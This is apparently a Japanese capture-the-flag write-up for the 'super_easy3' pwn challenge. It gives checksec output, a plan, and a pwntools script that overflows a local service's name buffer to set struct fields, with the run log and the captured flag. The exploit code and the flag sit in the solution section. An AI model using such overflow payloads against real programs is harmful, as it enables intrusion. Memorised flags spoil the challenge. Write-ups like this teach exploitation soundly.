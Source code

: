## 事前知識
詳しくはsuper_easyのwriteupをご覧ください。

```bash
$ checksec super_easy3
[*] '/home/user/work/taskctf21/pwn/super_easy/dist/super_easy3'
    Arch:     amd64-64-little   <- Architecture は amd64-64-little
    RELRO:    Full RELRO        <- RELocation REadOnly の略で、GOT Overwrite という攻撃ができない設定
    Stack:    Canary found      <- スタック上での Buffer Overflow を防ぐための機構が有効である設定
    NX:       NX enabled        <- 実行する必要のないデータを実行できなくする No eXecute bit という機構が有効である設定
    PIE:      PIE enabled       <- Position Independent Executable の略で、既知のアドレスが存在しない設定
```

## 方針
- `is_done`を0以外にする
- `score`を`0x1337`にする
  - little endianであることに注意
- ソースコードに合わせて`dead_line`を条件を満たす値にする

## 解法
サーバの起動

```bash
docker-compose up -d
```

```python
from pwn import *

ADDR = '127.0.0.1'
PORT = 30004

io = remote(ADDR, PORT)

print(io.recvuntil(b'name\n'))

payload = b'A' * 16 # name用の部分を全部埋める
payload += b'\x01\x00\x00\x00' # is_doneに1を入れる
payload += b'\x37\x13\x00\x00' # scoreに1337を入れる
payload += b'A' * 8
payload += b'\x77\xa9\xb6\x61' # 良さげな値を入れる

io.sendline(payload)
io.interactive()

"""
$ python3 solver/solve.py 
[+] Opening connection to 127.0.0.1 on port 30004: Done
b'Input task name\n'
[*] Switching to interactive mode
task
task name: AAAAAAAAAAAAAAAA
task done: 1
task score: 4919
task deadline: Mon Dec 13 02:01:27 2021

taskctf{n0w_y0u_kn0w_t1me_t}[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 30004
"""
```

## コメント
bofで書き込みをしつつ、time_tの値を範囲内に収める問題です。想定解法はtime_tの構造を確認した上で微調整をするやり方だったのですが、ログを見る限り脳筋でやった方も多そうでした。
